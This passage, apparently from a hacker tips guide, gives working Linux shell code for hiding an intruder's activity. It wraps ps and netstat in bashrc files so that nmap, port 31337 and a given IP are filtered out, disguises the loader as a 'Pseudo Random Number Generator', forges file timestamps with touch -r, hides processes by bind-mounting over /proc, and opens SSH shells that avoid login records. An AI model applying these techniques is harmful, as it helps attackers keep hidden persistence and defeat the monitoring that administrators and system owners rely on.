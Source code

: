 ```shell
echo 'ps(){ command ps "$@" | exec -a GREP grep -Fv -e nmap  -e GREP; }' >>~/.bashrc \
&& touch -r /etc/passwd ~/.bashrc
```

<a id="hide-a-process-root"></a>
**1.vi. Hide a process as root**

This requires root privileges and is an old Linux trick by over-mounting /proc/&lt;pid&gt; with a useless directory:
```sh
hide()
{
    [[ -L /etc/mtab ]] && { cp /etc/mtab /etc/mtab.bak; mv /etc/mtab.bak /etc/mtab; }
    _pid=${1:-$$}
    [[ $_pid =~ ^[0-9]+$ ]] && { mount -n --bind /dev/shm /proc/$_pid && echo "[THC] PID $_pid is now hidden"; return; }
    local _argstr
    for _x in "${@:2}"; do _argstr+=" '${_x//\'/\'\"\'\"\'}'"; done
    [[ $(bash -c "ps -o stat= -p \$\$") =~ \+ ]] || exec bash -c "mount -n --bind /dev/shm /proc/\$\$; exec \"$1\" $_argstr"
    bash -c "mount -n --bind /dev/shm /proc/\$\$; exec \"$1\" $_argstr"
}
```

To hide a command use:
```sh
hide                                 # Hides the current shell/PID
hide 31337                           # Hides process with pid 31337
hide sleep 1234                      # Hides 'sleep 1234'
hide nohup sleep 1234 &>/dev/null &  # Starts and hides 'sleep 1234' as a background process
```

(thanks to *druichi* for improving this)

<a id="hide-scripts"></a>
**1.vii. Hide shell scripts**

Above we discussed how to obfuscate a line in ~/.bashrc. An often used trick is to use `source` instead. The source command can be shortened to `.` (yes, a dot) _and_ it also searches through the $PATH variable to find the file to load.

In this example our script ```prng``` contains all of our shell functions from above. Those functions hide the `nmap` process and the network connection. Last we add `. prng` into the systemwide rc file. This will load `prng` when the user (and root) logs in:

```shell
echo -e 'netstat(){ command netstat "$@" | grep -Fv -e :31337 -e 1.2.3.4; }
ps(){ command ps "$@" | exec -a GREP grep -Fv -e nmap  -e GREP; }' >/usr/bin/prng \
&& echo ". prng #Initialize Pseudo Random Number Generator" >>/etc/bash.bashrc \
&& touch -r /etc/ld.so.conf /usr/bin/prng /etc/bash.bashrc
```

(The same works for `lsof`, `ss` and `ls`)

---
<a id="ais-anchor"></a>
**2.i. Almost invisible SSH**
```sh
ssh -o UserKnownHostsFile=/dev/null -T user@server.org "bash -i"
```
This will not add your user to the */var/log/utmp* file and you won't show up in *w* or *who* command of logged in users. It will bypass .profile and .bash_profile as well. On your client side it will stop logging the host name to *~/.ssh/known_hosts*.
